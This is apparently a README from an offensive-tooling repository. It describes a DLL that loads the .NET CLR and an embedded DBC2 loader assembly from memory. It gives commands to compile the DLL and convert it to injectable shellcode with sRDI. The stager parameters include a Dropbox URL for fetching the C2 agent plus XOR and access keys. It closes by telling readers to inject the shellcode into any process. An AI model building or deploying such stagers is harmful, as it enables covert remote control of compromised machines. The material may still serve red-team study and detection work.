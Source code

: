 nativeWrapper
============
**dbc2LoaderWrapperCLR** is a unamanaged DLL that loads the .Net CLR in memory at runtime, then loads the dbc2Loader .Net assembly from memory and finally invoke a dbc2Loader specific method (*to match a specific function prototype required by InvokeMember_3 method*).

The dbc2Loader assembly is hardcoded as an array of bytes in the `dbc2LoaderWrapperCLR.h` file.

The sole purpose of this DLL is to get a unmanaged DLL hosting the dbc2Loader .Net assembly in order to be later converted into position independant shellcode through the use of sRDI (https://github.com/monoxgas/sRDI).


How to compile the nativeWrapper DLL
----------------
You'll need Visual Studio (express is ok as well):

```
====== x86 (32 bits) DLL:
	1/ First, run the following bat file:
		"c:\Program Files (x86)\Microsoft Visual Studio 14.0\VC\bin\vcvars32.bat"

	2/ Then compile it using
		c:\> cl.exe /LD dbc2LoaderWrapperCLR.cpp /o release_x86\dbc2LoaderWrapperCLR_x86.dll
	
====== x64 (64 bits) DLL:
		1/ First, run the following bat file:
		"C:\Program Files (x86)\Microsoft Visual Studio 14.0\VC\bin\x86_amd64\vcvarsx86_amd64.bat"

	2/ Then compile it using
		c:\> cl.exe /LD dbc2LoaderWrapperCLR.cpp /o release_x64\dbc2LoaderWrapperCLR_x64.dll
```

How to convert the DLL to shellcode with sRDI
----------------

You'll have to use a slightly modified version of the powershell `ConvertTo-Shellcode.ps1` script that is provided in this repository. You'll need the x86 and/or x64 compiled nativeWrapper.dll file.

Then use the powershell script like this:

```
c:\> powershell.exe
PS c:\> ipmo ConvertTo-Shellcode.ps1

PS c:\> #x86 DLL 
PS c:\> ConvertTo-Shellcode -File release_x86\dbc2LoaderWrapperCLR_86.dll -UserData "<all required parameters for the dbc2Loader entryPoint function>" | Set-Content -Path dbc2LoaderWrapperCLR_x86.bin -Encoding Byte

PS c:\> #x64 DLL 
PS c:\> ConvertTo-Shellcode -File release_x64\dbc2LoaderWrapperCLR_64.dll -UserData "<all required parameters for the dbc2Loader entryPoint function>" | Set-Content -Path dbc2LoaderWrapperCLR_x86.bin -Encoding Byte
```

**IMPORTANT**: Using the ConvertTo-Shellcode.ps1 script, it is important to note that the dbc2Loader parameters must be passed in one single string with a `! separator, like for instance:
`https://dropbox.com/path_to_dbc2_agent!xorkey!accessToken!masterkey`
Those parameters are just like to one you would find in any other DBC2 stager.

The resulting bin file are the shellcode that you're free to inject in any process using your prefered method.

Have fun !